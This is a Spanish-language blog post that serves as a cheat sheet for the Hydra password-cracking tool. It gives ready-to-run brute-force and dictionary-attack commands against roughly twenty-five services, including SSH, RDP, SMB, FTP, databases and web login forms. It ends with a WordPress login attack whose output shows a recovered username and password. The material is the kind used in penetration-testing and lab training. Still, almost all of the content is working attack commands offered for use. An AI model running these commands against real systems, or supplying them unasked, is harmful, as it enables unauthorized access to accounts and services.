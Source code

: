 ```yaml
---
date: 2022-05-29T23:08:12.000Z
layout: post
comments: true
title: Hydra
subtitle: 'Herramienta para romper contraseñas'
description: >-
image: >-
  http://imgfz.com/i/xoyNhEF.png
optimized_image: >-
  http://imgfz.com/i/xoyNhEF.png
category: ciberseguridad
tags:
  - Brute-Force
  - Fuerza-Bruta
  - contraseña
  - password
  - Diccionario
  - Wordlist
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es una herramienta para romper inicios de sesión a través de ataques de fuerza bruta o de diccionario.

Admite: Cisco AAA, Cisco auth, Cisco enable, CVS, FTP, HTTP(S)-FORM-GET, HTTP(S)-FORM-POST, HTTP(S)-GET, HTTP(S)-HEAD, HTTP- Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MySQL, NNTP, Oracle Listener, Oracle SID, PC-Anywhere, PC-NFS, POP3, PostgreSQL, RDP, Rexec, Rlogin, Rsh, SIP, SMB(NT) , SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 y v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC y XMPP.

### Tabla de parámetros

| Parámetro | Utilidad |
| :--------: | :-------: |
| -P | Indica la ruta del diccionario de contraseñas. |
| -L | Indica la ruta del diccionario de usuarios. |
| -t | Hilos (1-64). |
| -s | Se selecciona el puerto del servicio en el caso de que no sea por defecto. |
| -f | Salir cuando se encuentren las credenciales de inicio de sesión/contraseña. |
| -vV | Verbose. |

### CouchDB

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L /usr/share/wordlists/simple-users.txt -P /usr/share/wordlists/password.lst localhost -s 5984 http-get /
```

### Docker Registry

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L /usr/share/wordlists/simple-users.txt  -P /usr/share/wordlists/password.lst 10.1.1.30 -s 5000 https-get /v2/
```

### Elasticsearch

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L /usr/share/wordlists/simple-users.txt -P /usr/share/wordlists/password.lst localhost -s 9200 http-get /
```

### FTP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l root -P passwords.txt -t 32 10.1.1.30 ftp
```

### HTTP-GET

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L username.txt -P /usr/share/wordlists/rockyou.txt 10.1.1.30 http-get /admin
```

Para el caso de https, se debe reemplazar ```http-post``` por ```https-get```.


### HTTP-POST

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt -P password.lst 10.1.1.30 http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
```

Para el caso de https, se debe reemplazar ```http-post-form``` por ```https-post-form```.

### IMAP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l USERNAME -P /path/to/passwords.txt -f 10.1.1.30 imap -V
```

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f 10.1.1.30 imap -V
```

### LDAP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt -P passwords.txt 10.1.1.30 ldap2 -V -f
```

### MySQL

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L usernames.txt -P pass.txt 10.1.1.30 mysql
```

### POP3

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.1.1.30 pop3 -V
```

### PostgreSQL

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt –P passwords.txt 10.1.1.30 postgres
```

### RDP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.1.1.30
```

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -L users.txt -P /usr/share/wordlists/rockyou.txt rdp://10.1.1.30
```

### Redis

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra –P passwords.txt redis://10.1.1.30:6379
```

### Rexec

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l user -P passwords.txt rexec://10.1.1.30 -v -V
```

### Rlogin

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l user -P passwords.txt rlogin://10.1.1.30 -v -V
```

### Rsh

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L user.txt rsh://10.1.1.30 -v -V
```

### RTSP


```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l root -P passwords.txt 10.1.1.30 rtsp
```

### SMB

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt 10.1.1.30 smb
```

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -L users.txt -P /usr/share/wordlists/rockyou.txt 10.1.1.30 smb
```

### SMTP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -P /usr/share/wordlists/wordlistsnmap.lst 10.1.1.30 smtp -V
```

### SNMP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -P wordlist.txt -v 10.1.1.30 snmp
```

### SQL Server

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L user.txt –P passwords.txt 10.1.1.30 mssql
```

### SSH

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -vV -L users.txt -P passwords.txt -t 1 -u 10.1.1.30 ssh
```

Al conocer el usuario:

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -vV -l user -P passwords.txt -t 1 10.1.1.30 ssh
```

Al conocer la contraseña:

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -vV -L users.txt -p password -t 1 -u 10.1.1.30 ssh
```

### Telnet

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l root -P passwords.txt -t 32 10.1.1.30 telnet
```

### VNC

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt –P passwords.txt -s 5432 10.1.1.30 vnc
```

### Nota

Para eliminar elementos repetidos de un diccionario se debe realizar lo siguiente:

```bash
┌─[root@kali]─[/hydra]
└──╼ cat wordlist.dic | sort | uniq > new_wordlist.txt
```

### Ejemplo en Wordpress


```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt -P passwords.txt 10.1.1.30 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 64
...
...
...
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "examples" - 5686 of 11452 [child 35] (0/0)
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "Examples" - 5687 of 11452 [child 50] (0/0)
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "exams" - 5688 of 11452 [child 8] (0/0)
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "excellent" - 5689 of 11452 [child 29] (0/0)
[80][http-post-form] host: 10.1.1.30   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
```

### Ejemplo desde Windows

```
D:\Hydra>hydra.exe -v -V -t 64 -L users.txt -P rockyou.txt test.com https-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location"
```

